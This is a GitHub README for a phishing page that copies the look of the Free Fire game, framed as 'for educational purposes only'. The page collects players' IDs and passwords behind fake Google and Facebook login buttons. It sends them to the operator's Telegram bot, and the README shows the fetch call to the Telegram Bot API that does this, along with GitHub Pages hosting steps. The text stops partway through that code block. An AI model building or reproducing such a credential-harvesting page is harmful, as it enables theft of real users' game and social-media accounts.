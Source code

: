 # 🔥 Free Fire Style Login Page

This is a **fictitious login page inspired by Free Fire** game design, made for **educational purposes only**.  
Users can enter a Player ID and Password, then simulate login using Google or Facebook buttons.

The login data is sent to a **Telegram Bot** via the Bot API — perfect to learn about web forms, HTML/CSS/JS, and Telegram integration.

---

## 🎯 Features

- 🔐 Input fields: Player ID + Password  
- 🧠 Fake login buttons (Google, Facebook)  
- ⚙️ Telegram Bot integration (send info)  
- 🎮 Gaming UI inspired by Free Fire

---

## 🚀 Live Demo (after GitHub Pages is enabled)

> https://your-username.github.io/freefire-login-site/

*(replace `FF-LOgin` with your GitHub username)*

---

## 🔧 How It Works

1. User fills in Player ID and Password
2. On click, data is sent using:
   ```js
   fetch(`https://api.telegram.org/botYOUR_TOKEN/sendMessage?...`)
